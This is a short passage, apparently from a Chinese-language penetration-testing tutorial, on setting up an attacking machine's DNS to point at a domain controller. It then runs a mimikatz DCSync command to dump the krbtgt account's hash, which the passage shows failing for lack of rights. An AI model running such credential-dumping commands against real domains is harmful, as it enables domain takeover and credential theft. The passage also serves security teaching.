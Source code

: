 使用 mimikatz 进行攻击的话，攻击机可以是域中的普通机器，也可以不是域中的机器。当攻击机不在域中时，需要将 DNS 服务器设置为域控。

如图所示，当主机不在域内时，配置其 DNS 服务器为域控 10.211.55.4。

![截图](9aa81357a1367490e0769ea2a50fb091.png)

首先执行如下命令可以看到本机并没有权限导出域内任意用户哈希。

```
mimikatz.exe "lsadump::dcsync /domain:xie.com /user:krbtgt /csv" "exit"
```

![截图](a1d6cec5a3fd059f9cfc477735cfa643.png)
